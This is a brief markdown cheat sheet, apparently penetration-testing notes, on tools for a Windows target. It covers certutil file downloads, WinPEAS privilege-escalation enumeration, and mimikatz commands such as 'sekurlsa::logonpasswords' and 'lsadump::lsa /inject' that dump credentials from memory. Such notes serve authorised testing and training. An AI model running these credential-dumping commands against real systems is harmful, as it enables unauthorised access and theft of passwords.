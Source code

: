 # Windows Target (Tools)

- [certutil.exe](#cerutil.exe): an http / file-download client built into windows
- [WinPEAS](#winpeas): privilege escalation vector detection
- [mimikatz](#mimikatz): privilege escalation vector detection

## certutil.exe

An http / file-download client built into windows ([docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)).

Usage:

```
certutil.exe -f ${URL} ${OUTPUT_FILENAME}
```

## WinPEAS

A privilege escalation vector detection script for Windows ([docs](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)) ([releases](https://github.com/carlospolop/PEASS-ng/releases)).

Usage: (just invoke the binary for the script to run)

```
winpeas.exe
```

## mimikatz

Extracts in-memory credentials (usernames + password hashes) ([src](https://github.com/ParrotSec/mimikatz)).

Usage: (just invoke the binary for an interactive prompt)

```
mimikatz.exe
```

Some commands:

- `privilege::debug` escalates the privilege of mimikatz
- `log` will start a log file in the current working directory
- `lsadump::lsa /inject` dumps usernames and password *hashes* with the 'inject' method
- `sekurlsa::logonpasswords` same as above but more thorough / more info

